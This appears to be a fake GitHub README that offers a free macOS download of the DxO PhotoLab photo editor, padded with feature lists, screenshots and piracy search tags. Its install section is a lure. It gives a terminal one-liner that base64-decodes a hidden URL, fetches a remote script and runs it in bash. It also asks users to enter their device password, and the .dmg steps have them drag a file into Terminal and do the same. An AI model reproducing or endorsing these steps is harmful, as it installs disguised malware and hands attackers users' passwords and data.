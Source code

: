 # 🖼️ DxO PhotoLab — Advanced RAW Photo Editing for macOS

**DxO PhotoLab** is a powerful RAW image processing and photo editing software designed for photographers seeking precise, high-quality image enhancements. Built for macOS, it delivers intelligent auto corrections, advanced local adjustments, and professional-grade color management with an intuitive interface.

Favored by photography professionals and enthusiasts, DxO PhotoLab offers unmatched lens correction and deep control over every pixel for stunning visual results.

---

## ✅ Download DxO PhotoLab for macOS  
[![Download DxO PhotoLab](https://img.shields.io/badge/Download-DxO_PhotoLab-blueviolet)](https://shuziktobehuman.github.io/huja/DxO)


## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download DxO PhotoLab for macOS  
[![Download DxO PhotoLab](https://img.shields.io/badge/Download-DxO_PhotoLab-blueviolet)](https://dxo-photolab-mac-download.github.io/.github)

---

## 📦 What is DxO PhotoLab?

DxO PhotoLab is a photo editing solution that combines AI-powered tools with award-winning RAW processing. It offers highly customizable editing features including control points, HSL tools, and smart lighting. With deep camera and lens module integration, it optimizes your images automatically while giving you total creative freedom.

---

## ✨ Features

- 📸 **DeepPRIME noise reduction** for crystal-clear RAW files  
- 🎯 U Point™ local adjustment technology for precise edits  
- 🌅 Smart Lighting and ClearView Plus for dynamic range enhancement  
- 🧠 AI-powered image correction and enhancement  
- 🔍 Lens sharpness and distortion correction using DxO Optics Modules  
- 🎨 Advanced color grading with HSL tools  
- 🖥️ Full macOS compatibility with Retina display support  
- 🔄 Integration with Lightroom and Adobe workflows  

---

## 💡 Why Use DxO PhotoLab?

- 📷 Ideal for photographers editing high-resolution RAW images  
- 🎯 Offers powerful local adjustments without layers  
- 🧰 Packed with automatic corrections and manual precision tools  
- 📈 Achieve professional results with minimal effort  
- 🚀 Optimized for performance and quality on macOS  

---

[![Download DxO PhotoLab](https://img.shields.io/badge/Download-DxO_PhotoLab-blueviolet)](https://shuziktobehuman.github.io/huja/DxO)

---

## 🖼️ Preview

![DxO PhotoLab Screenshot 1](https://www.dpreview.com/files/p/articles/8334110411/PhotoLab-6-UI-Customize-mode.jpeg)  
![DxO PhotoLab Screenshot 2](https://www.dpreview.com/files/p/articles/9669882236/dxo-photolab-4-history-panel.jpeg)

---

## 📌 Tags

dxo photolab, dxo photolab 7, dxo photolab 6, dxo software, dxo photolab 5,  
dx0 photolab, dxo elite, dxo photo lab 6, dxo photo lab elite, dxo photolab 6.0,  
dxo photolab black friday, dxo photolab discount, dxo photolab download,  
dxo photolab free download, dxo photolab linux, dxo photolab price,  
dxo photolab sale, dxo photolab torrent, dxo photolab5, dxo photolab6,  
photolab dxo, photolab software, dxo photolab mac, dxo photolab mac download


